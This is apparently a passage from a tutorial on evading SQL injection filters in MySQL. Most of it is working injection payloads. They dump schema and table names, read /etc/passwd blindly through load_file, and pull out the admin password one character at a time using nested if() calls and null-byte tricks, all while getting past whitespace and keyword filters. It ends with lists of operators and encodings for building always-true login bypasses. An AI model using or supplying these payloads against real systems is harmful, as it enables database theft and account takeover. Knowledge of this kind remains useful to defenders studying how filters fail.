

Alternative whitespaces
Caught by the whitespace filter. But luckily because of the flexible MySQL syntax we can avoid all whitespaces by using parenthesis to seperate SQL keywords (old but not seen very often).
?id=(1)and(1)=(0)union(select(null),table_name,(null)from(information_schema.tables)limit 28,1-- -)
Looks good, but still has some spaces at the end. So we also use group_concat() because LIMIT requires a space. Since all table names in one string can be very long, we can use substr() or mid() to limit the size of the returning string. As SQL comment we simply take “#” (not urlencoded for better readability).
?id=(1)and(1)=(0)union(select(null),mid(group_concat(table_name),600,100),(null)from(information_schema.tables))#
Instead of a quoted string we can use the SQL hex representation of the found table name:
?id=(1)and(1)=(0)union(select(null),group_concat(column_name),(null)from(information_schema.columns)where(table_name)=(0x7573657273))#
Basic keywords filtered
Now consider the filter additionally checks for the keywords “and”, “null”, “where” and “limit”:
Without 'where':
?id=(0)union(select(0),group_concat(table_name),(0)from(information_schema.tables))#
?id=(0)union(select(0),group_concat(column_name),(0)from(information_schema.columns))#
Alternate:
?id=(0)union(select(0),group_concat(schema_name),(0)from(information_schema.schemata))#
Lets assume your database name is “test” which hex representation is “0x74657374”. Then we can use HAVING to get all table names associated with the database “test” without using WHERE:
?id=(0)union(select(table_schema),table_name,(0)from(information_schema.tables)having((table_schema)like(0x74657374)))#
Note that you have to select the column “table_schema” in one of the place holders to use this column in HAVING. Since we assume that the webapp is designed to return only the first row of the result set, this will give us the first table name. The second table name can be retrieved by simply excluding the first found table name from the result:
?id=(0)union(select(table_schema),table_name,(0)from(information_schema.tables)having((table_schema)like(0x74657374)&&(table_name)!=(0x7573657273)))#
We use && as alternative for the filtered keyword AND (no urlencoding for better readability). Keep excluding table names until you have them all. Then you can go on with exactly the same technique to get all column names:
?id=(0)union(select(table_name),column_name,(0)from(information_schema.columns)having((table_name)like(0x7573657273)))#
?id=(0)union(select(table_name),column_name,(0)from(information_schema.columns)having((table_name)like(0x7573657273)&&(column_name)!=(0x6964)))#
Unfortunately you can’t use group_concat() while using HAVING hence the excluding step by step.
advanced keyword filtering
Now its getting difficult. The filter also checks for all keywords previously needed:
If we have the FILE privilege we can use load_file() But we can’t output the result of load_file() because we can not use union select so we need another way to read the string returned by the load_file().
First we want to check if the file can be read. load_file() returns “null” if the file could not be read, but since the keyword “null” is filtered we cant compare to “null” or use functions like isnull(). A simple solution is to use coalesce() which returns the first not-null value in the list:
?id=(coalesce(length(load_file(0x2F6574632F706173737764)),1))
This will return the length of the file content or – if the file could not be read – a “1” and therefore the success can be seen by the userdata selected in the original query. Now we can use the CASE operator to read the file content blindly char by char:
?id=(case(mid(load_file(0x2F6574632F706173737764),$x,1))when($char)then(1)else(0)end)
(while $char is the character in sql hex which is compared to the current character of the file at offset $x)
We bypassed the filter but it requires the FILE privilege.
Better advanced keyword filtering
We need to keep in mind that we are already in a SELECT statement and we can add some conditions to the existing WHERE clause. The only problem with that is that we can only access columns that are already selected and that we do have to know their names. In our login example they shouldn’t be hard to guess though. Often they are named the same as the parameter names (as in our example) and in most cases the password column is one of {password, passwd, pass, pw, userpass}.
So how do we access them blindly? A usual blind SQLi would look like the following:
?id=(case when(mid(pass,1,1)='a') then 1 else 0 end)
This will return 1 to the id if the first char of the password is ‘a’. Otherwise it will return a 0 to the WHERE clause. This works without another SELECT because we dont need to access a different table. Now the trick is to express this filtered CASE operation with only boolean operators. While AND and OR is filtered, we can use the characters && and || to check, if the first character of the pass is ‘a’:
?id=1&&mid(pass,1,1)=(0x61);%00
We use a nullbyte instead of a filtered comment to ignore the check for the right password in the original sql query. Make sure you prepend a semicolon. Nice, we can now iterate through the password chars and extract them one by one by comparing them to its hex representation. If it matches, it will show the username for id=1 and if not the whole WHERE becomes untrue and nothing is displayed. Also we can iterate to every password of each user by simply iterating through all ids:
?id=2&&mid(pass,1,1)=(0x61);%00
?id=3&&mid(pass,1,1)=(0x61);%00
Of course this takes some time and mostly you are only interested in one specific password, for example of the user “admin” but you dont know his id. Basically we want something like:
?id=(SELECT id FROM users WHERE name = 'admin') && mid(pass,1,1)=('a');%00
The first attempt could be:
?id=1||1=1&&name=0x61646D696E&&mid(pass,1,1)=0x61;%00
If the character of the password is guessed correctly we will see “Hello admin” – otherwise there is displayed nothing. With this we have successfully bypassed the tough filter.
Even more frustrating keyword filtering
The character “=” shouldn’t be problematic as already mentioned above, we simply use “like” or “regexp” etc.:
?id=id&&(name)like(0x61646D696E)&&(mid(pass,1,1))like(0x61);%00
The character “|” isn’t even needed. But what about the “&”? Can we check for the name=’admin’ and for the password characters without using logical operators? After exploring all sorts of functions and comparison operators I finally found the simple function if(). It basically works like the CASE structure but is a lot shorter and ideal for SQL obfuscation / filter evasion. The first attempt is to jump to the id which correspondents to the name = ‘admin’
?id=if((name)like(0x61646D696E),1,0);%00
This will return 1, if the username is admin and 0 otherwise. Now that we actually want to work with the admin’s id we return his id instead of 1:
?id=if((name)like(0x61646D696E),id,0);%00
Now the tricky part is to not use AND or && but to also check for the password chars. So what we do is we nest the if clauses. Here is the commented injection:
?id=
if(
// if (it gets true if the name='admin')
if((name)like(0x61646D696E),1,0),
// then (if first password char='a' return admin id, else 0)
if(mid((password),1,1)like(0x61),id,0),
// else (return 0)
0
);%00
Injection in one line:
?id=if(if((name)like(0x61646D696E),1,0),if(mid((password),1,1)like(0x61),id,0),0);%00
Various techniques also have shown that detecting and blocking SQL injections based on keywords is not reliable and that exploiting those is just a matter of time.
Syntax and 'true' statements
First of all there are hundreds of possibilities to return a true statement in order to bypass logins or to return the full table content on select queries. Besides the simple ‘ OR ‘1’=’1 trick you can also compare the input directly. The shortest one would be ‘=’.
You can also use functions(md5(0)>1), column names (column!=0), user vars (e.g. @var!=1), system vars(e.g. @@version>4) combined with all kinds of whitespaces, operators, prefixes and brackets.
$prefixes = array(“”, “+”, “-“, “~”, “!”, “@”, ” “);
$operators = array(“^”, “=”, “!=”, “%”, “/”, “*”, “&”, “&&”, “|”, “||”, “<“, “>”, “>>”, “<<“, “>=”, “<=”, “<>”, “<=>”, ” XOR “, ” DIV “, ” LIKE “, ” RLIKE “, ” SOUNDS LIKE “, ” REGEXP “);
$whitespaces = array(“%20”, “%09”, “%0a”, “%0b”, “%0c”, “%0d”, “%a0”);
$comments = array("/*","#","%23","--");
Note that you can use prefixes and whitespaces as often as you want, so ‘ OR- +-1=- + – ( + 1 ) /* works as well.
Also consider that some prefixes affect their follower. This shows the following table:

Note that ~ inverts bits and you can also use @ as prefix, which will return into a user variable with the value null.
You can also do alot with statics like null, for example 1′ is not null /* or, to avoid comment types, 1′ is not null – ‘ (MySQL<=4). Instead of null you can also use \N (case sensitive). Or you can use true and false, for example ‘or true#. In WHERE clauses you can also use not, like ‘or not’.
As comment types you can use all three known on MySQL: /*, # (%23), --. However make sure that you will write at least one space behind --, like -- aa, otherwise your query will fail.